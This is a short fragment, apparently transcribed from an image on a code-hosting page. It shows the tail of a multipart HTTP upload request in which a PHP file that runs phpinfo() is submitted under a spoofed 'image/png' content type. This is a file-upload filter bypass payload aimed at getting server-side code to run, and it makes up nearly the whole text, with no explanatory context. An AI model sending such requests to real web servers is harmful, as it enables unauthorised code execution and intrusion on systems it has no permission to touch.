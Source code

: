 ```bash
Content-Type: image/png

<?php
 echo phpinfo();
 ?>
-----------------------------5328251521417983493850126180
Content-Disposition: form-data; name="Upload"

Upload
-----------------------------5328251521417983493850126180--
```

